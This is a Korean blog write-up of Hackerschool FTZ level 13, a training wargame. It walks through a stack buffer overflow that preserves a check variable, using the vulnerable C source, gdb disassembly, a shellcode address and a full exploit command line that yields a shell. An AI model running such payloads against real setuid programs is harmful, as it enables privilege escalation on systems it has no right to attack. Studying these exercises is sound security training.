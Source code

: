```yaml
---
date: '2022-10-03'
before : '2022-10-02'
after : '2022-10-04'
title: '시스템 해킹(11) : 해커스쿨 FTZ 레벨 13'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또 다시 나온 BOF 문제이다. 하지만 이번 문제는 아주 조금 더 어려운게, 중간에 long i라는 값을 끼워넣어서, 이 값이 변조되었을 경우는 프로그램의 실행을 거부하는 형식의, 아주 기초적인 방어를
하고 있다. 이런 경우에는 그냥 Dummy코드를 짤 때, 저 long i 변수의 정확한 위치를 파악해서 Dummy코드 사이 i값이 오는 위치에 i 값을 정확하게 넣어주면 된다. 바로 코드로 들어가보자.

### 1. Level 13

일단 hint를 확인해 보면 attackme의 소스코드가 다음과 같이 나온다. 

```
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```

"들어가기 전에" 에서 설명했지만, 이번에는 i값이 위조되었는지를 확인하는 코드가 if 문에 작성되어있다. 따라서 우리의 더미 데이터에도 i의 본래 값이 들어가있어야 한다.


얼른 카피해서 test 파일을 만들고 gdb로 disassemble 해보자. disassemble 하니 다음과 같은 어셈블리 코드가 실행되었다는 것을 알 수 있다.

```
0x080483c8 <main+0>:    push   ebp
0x080483c9 <main+1>:    mov    ebp,esp
0x080483cb <main+3>:    sub    esp,0x418
0x080483d1 <main+9>:    and    esp,0xfffffff0
0x080483d4 <main+12>:   mov    eax,0x0
0x080483d9 <main+17>:   sub    esp,eax
0x080483db <main+19>:   mov    DWORD PTR [ebp-12],0x1234567
0x080483e2 <main+26>:   sub    esp,0x8
0x080483e5 <main+29>:   push   0xc16
0x080483ea <main+34>:   push   0xc16
0x080483ef <main+39>:   call   0x80482e8 <setreuid>
0x080483f4 <main+44>:   add    esp,0x10
0x080483f7 <main+47>:   cmp    DWORD PTR [ebp+8],0x1
0x080483fb <main+51>:   jle    0x8048417 <main+79>
0x080483fd <main+53>:   sub    esp,0x8
0x08048400 <main+56>:   mov    eax,DWORD PTR [ebp+12]
0x08048403 <main+59>:   add    eax,0x4
0x08048406 <main+62>:   push   DWORD PTR [eax]
0x08048408 <main+64>:   lea    eax,[ebp-1048]
0x0804840e <main+70>:   push   eax
0x0804840f <main+71>:   call   0x8048308 <strcpy>
0x08048414 <main+76>:   add    esp,0x10
```
확인해 보니 우리의 1024크기의 배열은 ebp-1048번째 위치에 생성되었고, i의 값은 ebp-12의 위치에 생성되었다. 이를 이용해 대략적인 레지스터의 스택을 파악해볼 수 있다. 다음의 그림을 그려보았다.

![register_outlook](../contentImages/Level13.png)


쉘코드를 짜고, 주소를 확인해보니 다음과 같다 :
```
./getenv => 0xbffffc1a => \x1a\xfc\xff\xbf // 원래 주소를 little endian으로 변환했다.
```
환경변수의 생성과 주소 파악하는법에 대해 모른다면 다음의 글을 참조하자! : [FTZ Level 12](<https://hosahn.github.io/221002/>)


이제 필요한 도구가 모두 모였다. attackme 함수를 실행하고, argv로 다음과 같은 문장을 넘겨주자.

```
 ./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x1a\xfc\xff\xbf"'`
```
설명하자면 1036개의 NOP 더미를 넘기고, ebp-8시점에서 i의 주소값을 정확히 정의했으며, 그 후에 또 12개의 NOP 더미를 넘기고 나서 shell코드의 주소를 넘겨주었다.


이해가 가지 않는다면 위의 그림을 다시한번 확인해보자. 실행시키니 shell을 얻을 수 있었다. my-pass로 비밀번호를 확인하였다.


비밀번호 : what the n(여러분들이 아는 그 후드의 단어..) want? (FTZ가 미친듯 하다. 내 외국인 친구들도 보는 블로그라 단어를 쓰진 않겠다..) 

---
## Source

- 해커스쿨 FTZ
- Me!